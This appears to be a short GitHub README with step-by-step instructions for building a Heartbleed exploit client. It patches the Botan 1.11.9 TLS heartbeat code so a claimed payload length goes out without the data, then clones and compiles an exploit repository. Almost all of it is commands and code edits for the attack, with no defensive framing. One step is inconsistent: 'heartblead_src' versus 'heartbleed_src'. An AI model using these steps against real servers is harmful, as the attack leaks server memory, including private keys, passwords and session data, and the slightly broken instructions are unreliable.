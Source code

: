 # Changes in Botan
tested version: 1.11.9

download here: http://files.randombit.net/botan/Botan-1.11.9.tgz

> tar xfvz Botan-1.11.9.tgz

> cd Botan-1.11.9/

apply the following changes (no patchfiles sorry)

- src/lib/tls/tls_policy.h:81 replace with:

> virtual bool negotiate_heartbeat_support() const { return true; }

- src/lib/tls/tls_heartbeats.h add a new private member:

> size_t m_payload_len;

- src/lib/tls/tls_heartbeats.cpp: ADD to constructor of 'Heartbeat_Message'

> m_payload_len(payload_len)

- src/lib/tls/tls_heartbeats.cpp: REMOVE the initialization of m_payload in the constructor of 'Heartbeat_Message'

> m_payload(payload, payload + payload_len)

- replace

> send_buf[1] = get_byte<u16bit>(0, m_payload.size());

> send_buf[2] = get_byte<u16bit>(1, m_payload.size());

with

> send_buf[1] = get_byte<u16bit>(0, m_payload_len);

> send_buf[2] = get_byte<u16bit>(1, m_payload_len);

> ./configure --prefix=/your/install/prefix/here (in my case '/opt/heartbleed')

> make

> make install

# Compile the Exploit

> git clone https://github.com/DanielAW/heartbleed.git

> mv heartbleed heartblead_src

> mkdir heartbleed

> cd heartbleed

> cmake ../heartbleed_src

> make
